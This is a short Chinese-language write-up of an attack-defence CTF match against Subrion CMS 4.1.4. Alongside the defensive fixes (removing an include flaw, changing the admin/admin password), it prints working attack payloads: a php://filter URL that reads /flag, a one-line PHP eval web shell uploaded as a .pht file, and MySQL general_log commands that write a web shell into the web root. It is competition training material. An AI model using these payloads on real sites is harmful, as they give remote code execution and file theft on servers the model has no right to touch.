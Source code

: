 # bugku-awd小记10.7

## Web

**Subrion CMS 4.1.4**

先把源码copy下来，拿D盾扫一遍

![image-20251007191012280](https://cdn.jsdelivr.net/gh/CTF-USTB/Panic404-wp-images/images/20251007200834342.png)

#### 1.文件包含漏洞

fix：直接删除

![image-20251007191047854](https://cdn.jsdelivr.net/gh/CTF-USTB/Panic404-wp-images/images/20251007200834344.png)

#### 2.弱口令+文件上传

![image-20251007191151830](https://cdn.jsdelivr.net/gh/CTF-USTB/Panic404-wp-images/images/20251007200834345.png)

管理员后台的账户密码是admin/admin，同时可以从config.inc.php 中得到数据库密码![image-20251007191404310](https://cdn.jsdelivr.net/gh/CTF-USTB/Panic404-wp-images/images/20251007200834346.png)

fix：改admin弱密码

![image-20251007191520845](https://cdn.jsdelivr.net/gh/CTF-USTB/Panic404-wp-images/images/20251007200834347.png)

然后登录后台看到可以upload，所以攻击时考虑传马

#### 3.sql注入

在panel里

![image-20251007192515325](https://cdn.jsdelivr.net/gh/CTF-USTB/Panic404-wp-images/images/20251007200834348.png)

Database处可以进行SQL注入，不过flag是错的

![image-20251007192544890](https://cdn.jsdelivr.net/gh/CTF-USTB/Panic404-wp-images/images/20251007200834349.png)

这里去群里吹水去了，没来得及修



### attack：

#### 1.文件包含

访问，直接能读到flag

```
http://192-168-1-67.pvp6715.bugku.cn/game/index.php/?file=php://filter/convert.base64-encode/resource=/flag
```

#### 2.传马

**上传点：/panel/uploads**

传a.pht

```
GIF89a
<?php  @eval($_REQUEST['huaji']);?>
```

之后访问即可。

![image-20251007192348932](https://cdn.jsdelivr.net/gh/CTF-USTB/Panic404-wp-images/images/20251007200834350.png)

#### 3.sql注入

panel里的database，先开启general_log

```
set global general_log=on;
```

然后让他写马进去，设置的日志文件路径

```
set global general_log_file="/var/www/html/set_config.php";
select '<?phpeval($_REQUEST[yunsee])?>';
```

这样也可以写马进去

![image-20251007193033553](https://cdn.jsdelivr.net/gh/CTF-USTB/Panic404-wp-images/images/20251007200834351.png)

## PWN

队友出的，ret2text，签到题

直接读取即可。

![image-20251007193319745](https://cdn.jsdelivr.net/gh/CTF-USTB/Panic404-wp-images/images/20251007200834352.png)

fix的内容没发出来，就不写（抄）了

<p style="text-align: right;">
by. Huaji
</p>